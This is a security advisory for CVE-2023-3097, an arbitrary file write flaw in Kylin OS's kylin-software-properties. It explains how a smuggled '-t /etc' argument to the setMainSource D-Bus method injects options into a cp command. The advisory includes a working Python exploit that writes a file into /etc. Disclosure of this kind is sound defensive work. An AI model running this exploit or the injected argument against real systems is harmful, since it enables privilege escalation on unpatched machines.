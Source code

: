 # Kylin OS kylin-software-properties arbitrary file write vuln

Author: Set3r.Pan（8691003@qq.com）\
Unit: KylinSoft（https://www.kylinos.cn/）
### CVE ID
CVE-2023-3097
## Report
### Describe
Kylin-software-properties is a component used to set system software properties on KylinOS Desktop. The setMainSource function of this component has an arbitrary file write vulnerability. The implementation method is to call the command "cp file /etc/apt/sources.list". However, if the parameter passed is "['-t /etc /path/to/evil.txt']", the developer will split this string by space and pass it as a parameter to the cp command during implementation. Therefore, the command "cp -t /etc /path/to/evil.txt /etc/apt/sources.list" will be triggered, thereby achieving arbitrary file write in any folder. This can lead to elevation of privileges for regular users.
### Hazard level
High
### Affected version
kylin-software-properties < 0.0.1-130
### POC&&EXP
ISO Download:\
https://distro-images.kylinos.cn:8802/web_pungi/download/share/HXDYtGjZm3daA4UvOTLkiPl1nB9ErM0c/

exploit.py
```
#!/usr/bin/env python3

import sys
import dbus
import os

def set_main_source(target_dir, src_file):
  bus = dbus.SystemBus()
  obj = bus.get_object("com.kylin.software.properties", "/com/kylin/software/properties")
  proxy = dbus.Interface(obj, "com.kylin.software.properties.interface")
  proxy.setMainSource([f'-t {target_dir} {src_file}'])
  os.system('touch set_main_source.txt')

set_main_source("/etc", os.path.realpath('./set_main_source.txt'))
os.system('ls -l /etc/set_main_source.txt')
os.system('rm set_main_source.txt')
```
